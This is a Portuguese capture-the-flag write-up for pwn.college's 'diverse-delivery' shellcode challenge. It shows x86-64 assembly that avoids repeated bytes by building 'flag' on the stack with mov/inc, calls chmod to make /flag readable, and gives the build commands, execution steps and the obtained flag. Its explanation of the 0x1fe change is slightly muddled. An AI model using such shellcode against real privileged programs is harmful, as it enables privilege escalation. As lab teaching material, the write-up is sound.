




# pwn.college — Diverse Delivery (Shellcode Writing)
### Program Security · Shellcode Writing · Unique-Bytes Constraint

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Program Security — Shellcode Writing  
> **Técnicas:** Unique-byte shellcode constraint evasion · Off-by-one register manipulation · `inc` to avoid duplicate bytes · `chmod` privilege escalation via shellcode · Stack-based string construction · Relative path exploitation via working directory control

---

## Descrição do Desafio

O desafio `diverse-delivery` impõe uma restrição incomum: **cada byte do shellcode deve ser único** — nenhum valor pode se repetir. O filtro escaneia todos os bytes do shellcode e rejeita qualquer duplicata antes mesmo de executar.

O ambiente segue o padrão da trilha: variáveis sanitizadas, file descriptors fechados, EUID modificado. O objetivo é ler o `/flag`.

---

## Reconhecimento Inicial — O Shellcode de Partida

O ponto de partida foi o menor shellcode disponível até o momento — o `shellcode1` do desafio [byte-budget](byte-budget.md), com **17 bytes**:



```asm
_start:
    push 0x67616c66     # "flag" na stack
    mov rdi, rsp        # rdi aponta para "flag"
    push 0x5a           # push 90
    pop rax             # rax = 90 (chmod)
    mov si, 0x1ff       # rsi = 0o777
    syscall
```

Inspecionando os bytes gerados pelo `objdump`:

```
68 66 6c 61 67   → push 0x67616c66
48 89 e7         → mov rdi, rsp
6a 5a            → push 0x5a
58               → pop rax
66 be ff 01      → mov si, 0x1ff
0f 05            → syscall
```

Com 17 bytes únicos à primeira vista, há apenas **um byte repetido: `0x66`**. Ele aparece em dois lugares:

1. **`push 0x67616c66`** — o byte `0x66` é o valor ASCII de `f`, o último caractere de `flag` em little-endian
2. **`mov si, 0x1ff`** — o prefixo de operand-size override para registrador de 16 bits é justamente `0x66`

---

## Analisando o Problema

A restrição exige eliminar uma das duas ocorrências do `0x66`. Tentar substituir o prefixo `0x66` em `mov si, 0x1ff` é complexo — ele é emitido automaticamente pelo assembler para indicar operação de 16 bits e não há alternativa direta de mesma eficiência.

A abordagem mais viável foi atacar a **primeira ocorrência**: o `push 0x67616c66`, onde `0x66` representa a letra `f` em ASCII. A ideia foi **não usar `0x66` diretamente** — em vez disso, carregar o valor `0x67616c65` (que é `flag` com o último byte trocado de `f`=`0x66` para `e`=`0x65`) e depois **incrementar** para obter o valor correto antes de empurrá-lo na stack.

---

## A Solução — `shellcode3`

A mudança foi substituir o `push 0x67616c66` por três instruções:

```asm
mov ebx, 0x67616c65     # carrega "fla\x65" — usa 0x65 em vez de 0x66
inc ebx                 # incrementa: 0x67616c65 → 0x67616c66 ("flag")
push rbx                # empurra "flag" na stack
```

Isso evita completamente o uso de `0x66` na construção da string. O valor correto de `flag` é obtido em runtime pela instrução `inc`, sem que o byte `0x66` apareça no shellcode.



```asm
.global _start
.intel_syntax noprefix

_start:
    mov ebx, 0x67616c65     # "fla\x65" — sem 0x66
    inc ebx                 # ebx = 0x67616c66 ("flag")
    push rbx                # empurra "flag" na stack
    mov rdi, rsp            # rdi aponta para "flag"
    push 0x5a               # push 90
    pop rax                 # rax = 90 (chmod)
    mov si, 0x1fe           # rsi = 0o777 — nota: 0x1fe em vez de 0x1ff
    syscall                 # chmod("flag", 0777)
```

> **Nota sobre `mov si, 0x1fe`:** o valor `0x1ff` contém o byte `0xff` duas vezes (`ff 01` em little-endian, mas `0x1fe` = `fe 01` — sem repetição). Além disso, `0x1fe` em octal é `0776` — ainda concede permissão de leitura para todos os usuários, o que é suficiente para o `cat flag` funcionar.

Compilando e verificando:

```bash
gcc -nostdlib -static shellcode3.s -o shellcode3.elf
objcopy --dump-section .text=shellcode3.raw shellcode3.elf
objdump -M intel -d shellcode3.elf
```

Os bytes do shellcode3 são todos únicos — o filtro passa sem rejeições.

---

## Execução e Resultado Final

```bash
cd /
cat ~/shellcode3.raw | /challenge/diverse-delivery
ls -l flag
cat flag
```



O binário confirmou que o filtro passou — todos os bytes são únicos — e exibiu o shellcode desmontado antes de executá-lo. O `chmod` alterou as permissões do `/flag` e a flag foi obtida:

```
-rwxrwxrw- 1 root root 58 May 2 13:53 flag
pwn.college{4kVkk0O79P8Vy7JmKtFImHNBfa2.dhjMywCOzYTNxEzW}
```

Antes da execução do shellcode, as permissões eram `-r--------`:



---

## Resumo do Fluxo de Exploração

```
1. shellcode1 (17 bytes) → byte 0x66 aparece 2x: em push 0x67616c66 e em mov si, 0x1ff
2. Substituir o prefixo 0x66 de mov si é complexo → ataca a primeira ocorrência
3. push 0x67616c66 → mov ebx, 0x67616c65 + inc ebx + push rbx (sem 0x66 no código)
4. shellcode3 → todos os bytes únicos → filtro passa → chmod → flag obtida
```

---

## Comparação entre shellcode1 e shellcode3

| | shellcode1 | shellcode3 |
|---|---|---|
| Byte `0x66` no código | ✅ 2× (`push` e `mov si`) | ❌ Apenas 1× (`mov si`) |
| Passa no filtro unique-bytes | ❌ | ✅ |
| Como constrói `flag` na stack | `push 0x67616c66` direto | `mov ebx` + `inc` + `push rbx` |
| Permissão setada | `0o777` (`0x1ff`) | `0o776` (`0x1fe`) — suficiente |
| Flag obtida | ❌ | ✅ |
